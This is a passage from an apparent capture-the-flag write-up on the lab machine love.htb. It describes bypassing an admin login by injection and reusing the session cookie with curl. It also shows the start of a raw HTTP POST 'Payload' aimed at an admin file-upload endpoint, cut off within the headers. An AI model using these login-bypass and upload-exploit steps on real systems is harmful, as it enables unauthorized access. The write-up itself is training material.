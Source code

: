 From where we can see that the target `/admin/login.php` fits with the form definition in the webpage `<form action="login.php" method="POST">`. So we can try injecting that payload and check the output:
![](img/2022-06-02-00-38-52.png)
We successfully bypassed the login with the exploit, obtaining access as admin. Now we can try to access `/admin/add_candidates.php` and check that exploit we found earlier:
We could access by web, let's try it by shell with the session cookie:
```bash
❯ curl http://love.htb/admin/candidates.php -H "Cookie: PHPSESSID=jlooianulcm32djvjven66jj76" -s | grep Neovic
            <span class="hidden-xs">Neovic Devierte</span>
                Neovic Devierte                <small>Member since Apr. 2018</small>
                    	<input type="text" class="form-control" id="firstname" name="firstname" value="Neovic">
        <p>Neovic Devierte</p>
```
Looking for the name of the admin user we obtained a successfull connection, so let's try that exploit again:
```bash
########################### Payload ############################
POST /admin/candidates_add.php HTTP/1.1
Host: love.htb
Content-Length: 275
Cache-Control: max-age=0
Origin: http://love.htb
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrmynB2CmGO6vwFpO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```